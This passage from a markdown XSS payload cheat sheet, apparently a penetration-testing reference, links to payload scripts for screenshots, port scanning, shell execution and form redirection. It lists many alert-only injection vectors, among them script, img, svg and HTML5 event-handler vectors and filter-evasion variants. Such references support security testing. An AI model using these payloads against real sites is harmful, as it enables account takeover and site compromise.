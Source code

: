 - [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## Identify an XSS endpoint

```javascript
<script>debugger;</script>
```

## XSS in HTML/Applications

XSS Basic

```javascript
Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
```

XSS for HTML5

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```
